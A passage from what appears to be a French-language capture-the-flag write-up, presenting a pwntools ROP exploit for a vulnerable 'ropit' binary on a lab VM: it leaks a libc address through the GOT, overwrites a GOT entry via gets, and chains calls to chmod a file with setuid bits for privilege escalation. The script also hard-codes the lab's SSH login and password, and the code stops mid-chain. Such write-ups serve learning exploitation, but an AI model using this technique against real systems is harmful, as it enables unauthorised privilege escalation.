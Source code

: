Petite modification de dernière minute quand je me suis rendu compte que si j'appelle *system* il serait plus intelligent d'appeler *setuid* avant (ahaha). A la place j'ai préféré que le ROP appelle chmod sur un fichier nommé *zR* (parce que cette chaîne de caractères est présente dans le binaire). Vous verrez l'exploitation plus bas.  

Code de l'exploit :  

```python
from pwn import ELF, process, ROP, remote, ssh, log, p64, u64

LOCAL = False

LOCAL_BIN = "/tmp/ropit"  # Cette copie locale sert pour analyse
REMOTE_BIN = "/home/Boe/ropit"  # Sert juste à spécifier le chemin vers le binaire à exécuter
ENV = {
    "PATH": ".:/usr/local/bin:/usr/bin:/bin:/sbin:/usr/sbin",
    "TERM": "xterm-256color",
}

if LOCAL:
    # Les valeurs ici servent à tester en local
    ENV["HOME"] = "/home/devloop"
    P = process(LOCAL_BIN, env=ENV)
    LIBC = ELF("/lib64/libc.so.6")
else:
    ENV["HOME"] = "/home/Joxter"
    ENV["USER"] = "Joxter"
    ENV["PWD"] = "/home/Joxter"
    ssh_shell = ssh('Joxter', '192.168.56.19', password='0ffs3cJ0xt3r!!', port=22)
    P = ssh_shell.process(REMOTE_BIN, env=ENV, cwd="/home/Joxter")
    # On aura pris soin de copier la libc de la VM en local
    LIBC = ELF("./libc.so.6")

ELF_LOADED = ELF(LOCAL_BIN)  # Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)  # Find ROP gadgets

PUTS_PLT = ELF_LOADED.plt['puts']
GETS_PLT = ELF_LOADED.plt['gets']

# J'avais trouvé ces gadgets avec ROPgadget mais c'est plus compréhensible comme ça
POP_RDI = (ROP_LOADED.find_gadget(['pop rdi', 'ret']))[0]
POP_RSI_R15 = (ROP_LOADED.find_gadget(['pop rsi', 'pop r15', 'ret']))[0]

PUTS_GOT = ELF_LOADED.got['puts']
FILENAME = 0x4006fd  # chaine, ici "zR", trouvée dans le binaire

log.info("puts plt: " + hex(PUTS_PLT))
log.info("puts got: " + hex(PUTS_GOT))
log.info("gets plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
log.info("pop rsi; pop r15; ret  gadget: " + hex(POP_RSI_R15))

rop = b"A" * 1032
rop += p64(POP_RDI)       # première instruction exécutée, flow hijack
rop += p64(PUTS_GOT)      # l'adresse de puts est un argument
rop += p64(PUTS_PLT)      # puts est appellé pour afficher sa propre adresse
rop += p64(POP_RDI)       # on reprend le contrôle de l'exécution
rop += p64(PUTS_GOT)      # l'adresse de puts sert d'argument
rop += p64(GETS_PLT)      # on appel gets pour écraser l'adresse de puts, le programme bloque ici
rop += p64(POP_RSI_R15)   # on reprend le contrôle de l'exécution, puts.plt pointe désormais sur chmod
rop += p64(0o6755)        # Valeur octale d'un u+srwx g+srx o+rx 
rop += p64(0xdeadbeef)    # nevermind, ça va dans R15 because le gadget utilisé
rop += p64(POP_RDI)       # on reprend le contrôle de l'exécution
rop += p64(FILENAME)      # "zR" qui sert de filename
```